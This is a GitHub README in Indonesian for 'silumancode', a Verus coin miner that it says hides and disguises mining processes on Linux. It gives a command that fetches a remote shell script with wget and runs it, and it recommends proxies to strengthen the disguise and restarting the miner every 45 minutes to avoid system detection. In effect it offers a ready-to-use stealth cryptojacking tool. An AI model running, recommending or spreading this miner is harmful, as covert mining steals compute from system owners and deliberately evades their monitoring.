


# silumancode
miner verus coin yang mampu menyembunyikan dan menyamarkan proses mining di sistem linux
## install dependence :
 apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential -y
## Penggunaan
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh && ./sh wallet.namaminer pool thread y/n
- Keterangan :
        1. wallet : alamat walet verus miner anda
        2. pool   : pool mining verus coin (usahakan menggunakan proxy)
        3. thread : jumlah thread processor yang akan digunakan (usakan tidak menggunakan thread maksimal yang tersedia)
        4. y/n    : opsi untuk menampilkan proses mining dari miner (y untuk menampilkan, no tidak menampilkan)
### example
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 n

dan jika ingin menyembunyikan tampilan proses miner bisa menggunakan opsi (y) di akhir kode
### example II
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 y

### Catatan Tambahan
1. gunakan proxy untuk memaksimalkan proses penyamaran proses mining
2. proses miner akan di restart setiap 45 menit (untuk menghindari deteksi system)
3. kode ini hanya sementara untuk penggunaan jangka panjang dan mining coin lain, bisa menghubungi contak wa : 
